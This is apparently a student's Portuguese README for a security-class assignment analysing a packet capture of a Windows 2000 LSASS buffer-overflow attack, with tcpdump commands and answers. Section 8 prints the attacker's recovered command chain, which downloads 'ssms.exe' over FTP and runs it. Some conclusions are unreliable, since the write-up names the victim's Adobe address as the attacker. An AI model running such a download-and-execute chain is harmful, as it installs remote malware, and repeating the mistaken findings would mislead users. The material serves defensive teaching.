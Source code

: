 # traffic-analysis

My traffic analysis for the computational Security class at UFPR

vamos utilizar o tcpdump para ler o arquivo `.pcap` com o tráfego de rede e responder as perguntas:

1. Quais endereços IP/hosts estão envolvidos? (1pt)
2. O que você consegue descobrir sobre a máquina atacante (ex.: onde ela está localizada)? (1pt)
3. Quantas *sessões* TCP o arquivo possui? (1pt)
4. Quanto tempo o ataque levou? (1pt)
5. Qual sistema operacional foi alvo do ataque? Qual o serviço atacado? Qual a vulnerabilidade explorada? (3pts)
6. Esboce graficamente uma visão geral das ações realizadas pelo atacante (considere a topologia de rede, os passos do ataque, os resultados). (3pts)
7. Que vulnerabilidade específica foi explorada (CVE, propriedades de segurança violadas, como ela ocorre, etc.)? (1pt)
8. O que a shellcode faz? Liste a shellcode (código). (4pts)
9. Você acha que um honeypot foi utilizado para se passar por vítima vulnerável? Justifique. (3pts)
10. Houve código malicioso envolvido? Se sim, qual o nome/rótulo do malware? (1pt)
11. Você acha que o ataque foi manual ou lançado de maneira automática? Justifique sua resposta. (1pt)

***

## 1. Quais endereços IP/hosts estão envolvidos? (1pt)

Para descobrir quais endereços IP/hosts estão envolvidos, podemos utilizar o comando

```bash
tcpdump -r attack-trace.pcap -n | awk '{print $3}' | sort | cut -d. -f1,2,3 | uniq
```

 para filtrar os endereços IP e hosts envolvidos no ataque. O resultado desse comando é:

`192.150.11.111 - Adobe Systems Inc`

`98.114.205.102 - pool-98-114-205-102.phlapa.fios`

***

## 2. O que você consegue descobrir sobre a máquina atacante (ex.: onde ela está localizada)? (1pt)

Para descobrir onde a máquina atacante está localizada, podemos utilizar o comando

```bash
whois 192.150.11.111 | grep -E 'OrgName|City|Country'
```

 para descobrir a localização da máquina atacante. O resultado desse comando é:

`OrgName:        Adobe Systems Inc.`

`City:           San Jose`

`Country:        US`

***

## 3. Quantas *sessões* TCP o arquivo possui? (1pt)

Para descobrir quantas sessões TCP o arquivo possui, podemos utilizar o comando

```bash
tcpdump -r attack-trace.pcap tcp[tcpflags]=='tcp-syn' -nn | wc -l
```

 para filtrar as sessões TCP e contar quantas sessões existem. Podemos ver que existem 5 sessões e o registro de cada uma delas é mostrado abaixo.

```bash
00:28:28.374595 IP 98.114.205.102.1821 > 192.150.11.111.445: Flags [S], seq 147554406, win 64240, options [mss 1460,nop,nop,sackOK], length 0
00:28:28.509145 IP 98.114.205.102.1828 > 192.150.11.111.445: Flags [S], seq 147846946, win 64240, options [mss 1460,nop,nop,sackOK], length 0
00:28:30.466428 IP 98.114.205.102.1924 > 192.150.11.111.1957: Flags [S], seq 152210861, win 64240, options [mss 1460,nop,nop,sackOK], length 0
00:28:33.457215 IP 192.150.11.111.36296 > 98.114.205.102.8884: Flags [S], seq 1545682588, win 5840, options [mss 1460,sackOK,TS val 4055633882 ecr 0,nop,wscale 7], length 0
00:28:34.516921 IP 98.114.205.102.2152 > 192.150.11.111.1080: Flags [S], seq 161784447, win 64240, options [mss 1460,nop,nop,sackOK], length 0
```

***

## 4. Quanto tempo o ataque levou? (1pt)

É simples descobrir quanto tempo o ataque levou, basta conferir o timestamp do primeiro e do último pacote do arquivo. Para isso, podemos utilizar o comando

```bash
tcpdump -r attack-trace.pcap -nn | head -n 1 | awk '{print $1}' && tcpdump -r attack-trace.pcap -nn | tail -n 1 | awk '{print $1}'
```

 que nos retorna o timestamp do primeiro e do último pacote do arquivo. O resultado desse comando é:

`00:28:28.374595`

`00:28:44.593813`

Portanto, o ataque levou cerca de `16 segundos`.

***

## 5. Qual sistema operacional foi alvo do ataque? Qual o serviço atacado? Qual a vulnerabilidade explorada? (3pts)

Para descobrir qual sistema operacional foi alvo do ataque, precisamos analisar as assinaturas nos pacotes, vamos analisar o arquivo `.pcap` utilizando o wireshark.

Em um dos pacotes, é possível encontrar o seguinte texto:

`Native LAN Manager: Windows 2000 5.0`

Indicando que o SO alvo do ataque é o Windows 2000 na versão 5.0.

O serviço atacado foi o `Active Directory`.

Podemos ver que o serviço atacado é o AD ( Active Directory ) pois, se analisarmos o frame de N° 33, que contém comandos de setup do AD:

`Active Directory Setup, DsRoleUpgradeDownlevelServer`

A vulnerabilidade explorada foi um buffer overflow no serviço de AD. Podemos perceber isso pois, se filtrarmos os pacotes por `length` no wireshark e olharmos apenas para o primeiro tcp stream (`tcp.stream eq 1`) veremos que os os maiores pacotes contém diversos `NOPS` e, prováveis paddings, `\x31`

***

## 6. Esboce graficamente uma visão geral das ações realizadas pelo atacante (considere a topologia de rede, os passos do ataque, os resultados). (3pts)

![attack](attack.png)

***

## 7. Que vulnerabilidade específica foi explorada (CVE, propriedades de segurança violadas, como ela ocorre, etc.)? (1pt)

Ao procurar por `windows 2000 Active Directory buffer overflow` no google, encontramos facilmente o `CVE-2003-0533` que é justamente uma vulnerabilidade de buffer overflow no serviço de AD do Windows 2000.
A principal propriedade de segurança violada foi a integridade, pois o atacante conseguiu executar um código arbitrário no sistema alvo.
A exploração ocorre mais especificamente no `lsass.exe`. Ele é responsável por fornecer pesquisas, autenticação e replicação de banco de dados do Active Directory.

Essa vulnerabilidade foi utilizada pelo worm `Sasser` na época.

***

## 8. O que a shellcode faz? Liste a shellcode (código). (4pts)

Ao analisar os frames do arquivo `.pcap` é possível encontrar, no frame `44` uma string contendo 'ms.exe'. Se seguirmos o stream tcp desse frame, podemos encontrar a shellcode que foi utilizada no ataque.

```bash
echo open 0.0.0.0 8884 > o&echo user 1 1 >> o &echo get ssms.exe >> o &echo quit >> o &ftp -n -s:o &del /F /Q o &ssms.exe
ssms.exe
```

Ao que parece, essa shellcode faz o bind da porta `8884` em todas as interfaces de rede, faz o download do arquivo `ssms.exe` e o executa.

***

## 9. Você acha que um honeypot foi utilizado para se passar por vítima vulnerável? Justifique. (3pts)

Acredito que sim! Se seguirmos os tcp stream 3, conseguimos ver, ao fim, dos comandos `FTP` uma mensagem:

```text
220 NzmxFtpd 0wns j0
USER 1
331 Password required
PASS 1
230 User logged in.
SYST
215 NzmxFtpd
TYPE I
200 Type set to I.
PORT 192,150,11,111,4,56
200 PORT command successful.
RETR ssms.exe
150 Opening BINARY mode data connection
QUIT
226 Transfer complete.
221 Goodbye happy r00ting.
```

Devido à essa mensagem final `Goodbye happy r00ting` acredito que sim, um honeypot foi utilizado para se passar por vítima vulnerável.

***

## 10. Houve código malicioso envolvido? Se sim, qual o nome/rótulo do malware? (1pt)

O código malicioso envolvido foi aquele utilizado no Shellcode, um bind shell para executar comandos via `FTP` e fazer o download de um arquivo.

***

## 11. Você acha que o ataque foi manual ou lançado de maneira automática? Justifique sua resposta. (1pt)

Acredito que o ataque foi lançado de maneira automática, visto que o worm `Sasser` utilizava essa vulnerabilidade para se espalhar pela rede.

***

## Autores

- Vinícius Fontoura de Abreu (GRR20206873)
- Guiusepe Oneda Dal Pai (GRR20210572)
